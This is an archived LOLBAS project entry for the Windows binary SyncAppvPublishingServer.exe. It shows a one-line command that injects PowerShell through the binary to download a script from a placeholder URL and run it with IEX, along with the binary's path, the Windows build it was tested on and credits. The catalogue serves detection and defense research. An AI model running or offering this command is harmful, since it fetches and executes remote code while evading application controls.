 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## SyncAppvPublishingServer.exe

* Functions: Execute

```
SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas

Code sample:
* 

Resources:
* https://twitter.com/monoxgas/status/895045566090010624

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.exe
```

Notes:
Command injection into PowerShell
Might have been fixed in newest version of Windows 10.
(Works as of 10.0.16299.371)

 
